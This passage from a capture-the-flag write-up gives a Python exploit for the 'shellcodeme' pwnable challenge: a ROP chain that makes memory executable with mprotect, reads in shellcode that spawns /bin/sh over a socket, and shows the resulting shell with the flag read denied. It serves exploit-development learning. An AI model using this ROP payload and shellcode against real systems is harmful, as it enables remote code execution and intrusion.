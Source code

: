 ```python
payload += p(0x080484fc)        # leave; ret (restore stack)
payload += "A"*12               # dummy 
 
payload += p(MPROTECT)          # mprotect shellcode area back to rwx
payload += p(POP3RET)           # fix stack
payload += p(0x20000000)        # addr of shellcode
payload += p(0x1000)            # size (page-aligned)
payload += p(0x7)               # PROT_READ|PROT_EXEC|PROT_WRITE
 
payload += p(READ)              # read in our shellcode
payload += p(POP3RET)           # fix stack
payload += p(0x0)               # stdin
payload += p(0x20000000)        # address
payload += p(1024)              # copied value
 
payload += p(0x20000000)        # return to shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('pwnable.katsudon.org', 33201))
 
# send first stage
s.send(payload)
 
# for some reason, this delay was necessary
time.sleep(0.05)
 
# send shellcode, spawns /bin/sh
s.send("\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68")
 
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

I thought I was home-free! Let's cat that flag and be done with it! But what's this? (Yes, I've started using kali! =))

```bash
root@kali:~# python exploit.py
id
uid=1000(shellcodeme) gid=1000(shellcodeme) groups=1000(shellcodeme)
ls -alh
total 36K
dr-xr-xr-x 2 root shellcodeme2 4.0K Dec 22 22:09 .
drwxr-xr-x 3 root root         4.0K Dec 22 22:09 ..
-rw-r--r-- 1 root shellcodeme2  220 Sep 26 04:49 .bash_logout
-rw-r--r-- 1 root shellcodeme2 3.4K Sep 26 04:49 .bashrc
-rw-r--r-- 1 root shellcodeme2  675 Sep 26 04:49 .profile
-r--r----- 1 root shellcodeme2   34 Dec 22 22:09 flag
-r-xr-sr-x 1 root shellcodeme2 8.5K Dec 22 22:09 shellcodeme2
cat flag 2>&1
cat: flag: Permission denied
```
